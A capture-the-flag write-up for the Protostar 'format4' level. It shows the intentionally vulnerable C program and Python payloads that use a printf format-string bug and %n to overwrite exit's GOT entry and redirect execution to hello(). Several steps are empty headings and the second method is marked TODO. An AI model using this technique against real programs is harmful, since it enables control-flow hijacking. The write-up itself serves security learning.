



# Format 4

format4 looks at one method of redirecting execution in a process.

Hints:
- `objdump -TR` is your friend

This level is at `/opt/protostar/bin/format4`

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Solutions

We need to exploit the format string vulnerability at `printf(buffer)`.  

1. Identify which argument on the stack we control:

```console
user@protostar:/opt/protostar/bin$ python -c 'print("A" * 4 + "%x " * 10)' | ./format4 | tr ' ' '\n' | grep -n 41414141
4:41414141
```

Okay we control, the **4th** argument.

2. Get win function address (`hello()`):


3. Within `gdb` get `exit` address:



4. Set two breakpoints, one at `printf`, one at `exit`:



### Method #1: quick to develop, long to run

Print enough spaces (`' '`) to write the correct address:

With this exploit we wrote the address `0x00000022` in the **GOT**: 

```python
import struct

BUFFER_SIZE = 512
WIN_ADDRESS = 0x080484b4
EXIT_GOT = 0x8049724

def pad(s):  
    return s + 'X' * (BUFFER_SIZE - len(s))

payload = struct.pack('I', EXIT_GOT)
payload += "%" + str(30) + "x"
payload += "%4$n"

print(pad(payload)) 
```

So we need to adapt how many spaces (`' '`) we want to print.
We wrote `0x22` which is the equivalent of **34** in decimal.
We printed 4 characters with the exit address at the beginning of our payload plus 30 spaces (`' '`): **34** characters in total.

So we just have to write the `WIN_ADDRESS - 4` and the final exploit will be:

```python
import struct

BUFFER_SIZE = 512
WIN_ADDRESS = 0x080484b4
EXIT_GOT = 0x8049724

def pad(s):  
    return s + 'X' * (BUFFER_SIZE - len(s))

payload = struct.pack('I', EXIT_GOT)
payload += "%" + str(WIN_ADDRESS - 4) + "x"
payload += "%4$n"

print(pad(payload)) 
```



### Method #2: long to develop, quick to run

- Write the first two bytes of the `hello()` address and then the second two bytes:

> **TODO**

## Useful links

- <https://www.youtube.com/watch?v=t1LH9D5cuK4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=23>
- <https://www.youtube.com/watch?v=rreAFJLChRk>